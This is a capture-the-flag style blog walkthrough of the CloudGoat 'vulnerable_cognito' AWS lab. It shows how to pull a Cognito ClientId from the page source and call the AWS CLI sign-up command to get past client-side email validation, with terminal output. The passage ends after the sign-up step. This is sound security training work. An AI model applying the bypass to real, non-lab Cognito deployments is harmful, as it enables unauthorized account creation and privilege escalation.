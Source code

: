 # CloudGoat Scenario 2: vulnerable_cognito (Small / Moderate): WalkThrough and Mitigation

Hey hi, Soumyanil is back but with Cloud now, let’s have a look into AWS Penetration Testing. I will be covering all the scenarios provided by the CloudGoat vulnerable AWS environment by Rhinosecurity Labs.

**CloudGoat** is **Rhino Security Labs**’ “_Vulnerable by Design_” AWS deployment tool. It allows us to hone our cloud cybersecurity skills by creating and completing several **CTF** style scenarios. Each and every scenario is composed of AWS resources arranged together to create a structured learning experience. These scenarios vary in difficulty and many offer multiple paths to Flag/Goal.

From ***Purple Team point of View***:\
i. Our mission to perform Recon, identify vulnerabilities, and perform exploitation in order to achieve the scenario objective.\
ii. Provide Mitigation for the above Flaw that we came accross.

### <ins>Details about the Scenario :</ins>
i. In this scenario, you are presented with a signup and login page with AWS Cognito in the backend.\
ii. You need to :\
&nbsp;&nbsp;Objective A. ***Bypass restrictions*** \
&nbsp;&nbsp;Objective B. and ***Exploit Misconfigurations in Amazon Cognito*** in order :\
&nbsp;&nbsp;&nbsp;&nbsp;1. ***To Elevate your privileges***\
&nbsp;&nbsp;&nbsp;&nbsp;2. ***and get Cognito Identity Pool credentials***

I will be using Kali Linux VM to Spin Up the Vulnerable Lab Setup.

### CloudGoat SetUp:

To install [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat/):
```bash
git clone https://github.com/RhinoSecurityLabs/cloudgoat.git
cd cloudgoat
pip3 install -r ./requirements.txt
chmod +x cloudgoat.py
```
### NOTE:
Please setup the AWS CLI and AWS account prior to the above commands and create a user with name “cloudgoat” having permission for CLI connections.

### 1. Setting Up Scenario 2: vulnerable_cognito (Small / Moderate):
```bash
./cloudgoat.py create vulnerable_cognito
```
![](https://github.com/reveng007/reveng007.github.io/blob/main/CloudGoat/2.Scenarios-vulnerable_cognito%20(Small%20or%20Moderate)/1.ScenarioSetUp.png?raw=true)

![](https://github.com/reveng007/reveng007.github.io/blob/main/CloudGoat/2.Scenarios-vulnerable_cognito%20(Small%20or%20Moderate)/2.ScenarioSetUp.png?raw=true)



Q. BTW, What is **Amazon Cognito** ? \
Ans: According to [AWS](https://docs.aws.amazon.com/cognito/latest/developerguide/what-is-amazon-cognito.html):

![](https://github.com/reveng007/reveng007.github.io/blob/main/CloudGoat/2.Scenarios-vulnerable_cognito%20(Small%20or%20Moderate)/3.AmazonCognito.png?raw=true)

> So basically, **Amazon Cognito** is a User Identity and Data Syncronization Service, which gives User a very easy time to manage their accounts connected Over Mutiple Electronic Devices. 

### Let's Start:

```bash
┌──(kali㉿kali)-[~/AWS/BLOG_AWS/cloudgoat]
└─$ cat vulnerable_cognito_cgidgxpcecu5yc/start.txt 

apigateway_url = https://ht0ueqmd17.execute-api.us-east-1.amazonaws.com/vulncognito/cognitoctf-vulnerablecognitocgid2jkmefusdh/index.html
cloudgoat_output_aws_account_id = 572769290600
```

Let's Navigate to the site and signing up:

![image](https://github.com/reveng007/blog/assets/61424547/9a63d938-79fc-42fa-a4f1-05ac6cef5642)

Now using [temp-mail](https://temp-mail.org/en/), I tried to Sign-Up but I failed!

![](https://github.com/reveng007/reveng007.github.io/blob/main/CloudGoat/2.Scenarios-vulnerable_cognito%20(Small%20or%20Moderate)/5.SignUpEmailValidationError.png?raw=true)

### ***Objective A: Bypassing email (client-side validation Check) restrictions***:

#### 1. Inspecting Source code of Webpage:

![image](https://github.com/reveng007/blog/assets/61424547/eb805432-0ac9-4897-8d2e-1aea2eb17721)

Got this Creds:
```bash
UserPoolId: 'us-east-1_mYaVxhwr7'
ClientId: '4u4i11pmknfa2k6flrur6c3a5v'
```

#### 2. Bypassing email Client-Side validation Checks/ restrictions via AWS CLI:

Let us use this _retireved_ `ClientId` to SignUp Via AWS CLI, which would bypass _`email Client-Side validation Check/restriction`_.

```bash
aws cognito-idp sign-up --client-id [Client-id] --username [temp-mail address] --password [add-password] --region [region] --user-attributes '[{"Name":"given_name","Value":"lorem"},{"Name":"family_name","Value":"ipsum"}]'
```

```bash
┌──(kali㉿kali)-[~/AWS/BLOG_AWS/cloudgoat]
└─$ aws cognito-idp sign-up --client-id 4u4i11pmknfa2k6flrur6c3a5v --username yeripan911@bitofee.com --password Passw0rd! --region us-east-1 --user-attributes '[{"Name":"given_name","Value":"lorem"},{"Name":"family_name","Value":"ipsum"}]'
{
    "UserConfirmed": false,
    "CodeDeliveryDetails": {
        "Destination": "y***@b***",
        "DeliveryMedium": "EMAIL",
        "AttributeName": "email"
    },
    "UserSub": "3072f385-94fb-4eff-8371-829f7610af7e"
}
```
